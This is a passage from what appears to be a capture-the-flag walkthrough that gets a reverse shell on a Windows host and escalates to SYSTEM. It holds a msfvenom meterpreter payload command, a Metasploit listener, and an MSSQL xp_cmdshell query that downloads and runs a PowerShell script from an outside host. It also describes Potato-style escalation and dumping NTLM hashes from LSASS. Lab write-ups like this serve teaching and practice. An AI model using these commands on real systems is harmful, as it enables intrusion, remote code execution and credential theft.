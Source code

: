 **Preparing our shell script**
+ Generate Shellcode
    ```shell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=You_IP LPORT=4444 -f psh
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*IpWtSq0xQNMw0Ff0XBn6-g.png)
2. Add Shellcode to Script

    Add the generated shellcode to the `$SHELLCODE` variable in the [DynWin32-ShellcodeProcessHollowing.ps1](https://gist.githubusercontent.com/qtc-de/1ecc57264c8270f869614ddd12f2f276/raw/c5810a377af12b21629f25cd60b2e9c42713b8e8/DynWin32-ShellcodeProcessHollowing.ps1) script.

3. Start Metasploit Listener

    ```
    msfconsole -x "use exploits/multi/handler; set lhost You_IP; set lport 4444; set payload windows/x64/meterpreter/reverse_tcp; exploit"
    ```
4. Start a simple HTTP server to serve the shell script:
    ```bash
    python3 -m http.server 80
    ```

5. Execute Command via MSSQL Server

    ```sql
    EXECUTE (
        'EXECUTE AS LOGIN = ''sa''; 
        EXEC SP_CONFIGURE ''show advanced options'', 1; 
        RECONFIGURE; 
        EXEC SP_CONFIGURE ''xp_cmdshell'', 1; 
        RECONFIGURE; 
        EXEC xp_cmdshell ''powershell.exe -c IEX (IWR -UseBasicParsing "http://10.10.16.114:80/shell.ps1")'''
    ) AT [PRIMARY];
    ```
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*LYQNuZFidE9ScfFyd8YK5Q.png)

Got our reverse shell, checking account privilege: `whoami /priv`

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*esoIpSbspdnSVwHcy1CoSg.png)

## Privilege Escalation

We have `SeImpersonatePrivilege`, which allows us to escalate privileges to `SYSTEM` using one of the **Potato exploits**. This can be automated with Metasploit’s **`getsystem`** command.

Once we have SYSTEM access, we can dump the NTLM hashes of the system. This can be automated using Metasploit’s `hashdump`, which extracts hashes from the **LSASS** process.

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*8SBgwG8GeO8FQO6w4Zv0vw.png)

